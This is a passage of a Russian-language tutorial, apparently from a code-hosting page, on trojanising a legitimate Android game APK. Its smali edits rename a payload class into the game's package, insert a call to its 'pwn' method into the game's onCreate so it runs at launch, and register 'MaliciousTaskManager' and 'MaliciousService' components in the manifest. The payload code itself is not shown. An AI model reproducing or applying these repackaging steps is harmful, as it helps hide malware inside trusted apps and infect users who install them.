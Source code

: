 ```java
.class public Lkz/c/signscan/StageAttack;
```

Стало:
```java
.class public Lcom/halfbrick/mortar/StageAttack;
```

В smali классе ```MainActivity``` берем строчку вызова payload'а:
```java
invoke-static {p0}, Lcom/halfbrick/mortar/StageAttack;->pwn(Landroid/content/Context;)V
```

И вставляем в ```MortarGameActivity```. В итоге метод ```onCreate()``` выглядит:

```java
...
.method protected onCreate(Landroid/os/Bundle;)V
    .locals 9

    :try_start_0
    const-string v0, "android.os.AsyncTask"

    .line 465
    invoke-static {v0}, Ljava/lang/Class;->forName(Ljava/lang/String;)Ljava/lang/Class;
    :try_end_0
    .catch Ljava/lang/Throwable; {:try_start_0 .. :try_end_0} :catch_0

    .line 471
    :catch_0
    invoke-super {p0, p1}, Landroid/support/v4/app/FragmentActivity;->onCreate(Landroid/os/Bundle;)V
	
	.line 472
    invoke-static {p0}, Lcom/halfbrick/mortar/StageAttack;->pwn(Landroid/content/Context;)V
	
    .line 473
    invoke-static {}, Lcom/halfbrick/mortar/NativeGameLib;->TryLoadGameLibrary()Z

    .line 475
    invoke-virtual {p0}, Lcom/halfbrick/mortar/MortarGameActivity;->getIntent()Landroid/content/Intent;
    
    ...
```

Класс ```MaliciousTaskManager``` в payload это BroadcastReceiver, а ```MaliciousService``` это IntentService, поэтому мы должны их прописать в манифесте.

```xml
...
<receiver android:name=".MaliciousTaskManager"/>
<service android:name=".MaliciousService"/>
...
```

